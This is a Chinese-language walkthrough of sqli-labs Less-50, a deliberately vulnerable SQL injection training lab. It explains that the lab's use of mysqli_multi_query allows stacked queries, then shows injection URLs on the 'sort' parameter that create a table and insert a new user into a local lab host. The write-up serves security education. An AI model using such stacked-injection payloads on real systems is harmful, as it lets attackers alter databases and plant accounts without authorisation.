




# Less - 50

---

# 通关教程

---

## 1、判断闭合

---

```http
?sort=1'
```

​​

根据错误信息判断为数字型注入，这里发现这不跟前面有一关一模一样，但是我们通过源代码可知，在本关中使用了mysgli multi guery()函数，而在less46-49关中使用了mysqL fetch_assoc()函数，所以这里的不同点就在于本关可以使用堆叠注入的形式

---

## 2、创建一个表

---

```http
http://192.168.23.128/sqli-labs/Less-50/?sort=1;create table test like users;--+
```

​​

---

## 3、创建一个新用户

```http
http://192.168.23.128/sqli-labs/Less-50/?sort=1;insert into users values(18,'cmx','cmx');--+
```

​​

​​

‍
